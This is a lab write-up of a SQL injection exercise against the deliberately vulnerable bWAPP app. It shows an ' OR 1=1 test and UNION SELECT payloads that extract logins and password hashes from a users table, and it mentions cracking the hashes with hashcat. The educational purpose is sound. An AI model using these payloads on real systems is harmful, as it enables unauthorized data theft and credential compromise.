






# SQL Injection (GET/Search)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](WRITEUP.en.md)
- 🇷🇺 [Русский](WRITEUP.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---



# Functionality
---

Passing `test` to determine how the application reacts to entries that don't exist in the database:


Passing `Iron Man` to see the application's reaction to an entry that is (likely) in the database:



### Probable SQL query:

```SQL
SELECT * FROM movies WHERE title="$variable"
```

# Exploitation
---

Passing the `' OR 1=1 -- ` query to test for SQL injection:



The application returns all entries from the database, vulnerability confirmed.

Now passing a `UNION`-based payload to attempt retrieving data from the (likely present) `users` table:



This proves that the `users` table exists. The statements return a different number of columns.

Passing the `UNION` payload tampered with `NULL` values to retrieve the `users` table entries, incrementing the number of `NULL` values until the query results in success:



Hashed passwords that can later be cracked using tools like `hashcat`.



### Final payloads

Retrieving hashed password entries:

```SQL
Iron Man' UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users -- 
```

Retrieving login entries:

```SQL
Iron Man' UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users -- 
```